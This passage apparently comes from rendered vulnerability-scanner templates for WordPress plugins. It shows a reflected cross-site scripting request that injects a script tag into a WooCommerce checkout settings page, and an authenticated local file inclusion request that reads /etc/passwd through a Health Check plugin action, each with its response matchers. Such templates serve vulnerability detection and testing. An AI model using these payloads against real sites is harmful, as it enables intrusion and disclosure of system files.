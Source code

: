 ```
GET /wp-admin/admin.php?page=wc-settings&tab=wooccm&section=advanced&">--><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. >-->\<script>alert(1)\</script>&action=wooccm_nuke_options&

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Health Check & Troubleshooting \<1.24 - Local File Inclusion
## Description
- WordPress Health Check & Troubleshooting prior to 1.2.4 is vulnerable to local file inclusion. Exploitation does require authentication.
- severity - high
- tags - lfi,wp,wordpress,wp-plugin,authenticated,lfr,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
POST /wp-admin/admin-ajax.php?action=wprss_fetch_items_row_action HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=health-check-view-file-diff&file=../../../../../../etc/passwd

```
### Matchers
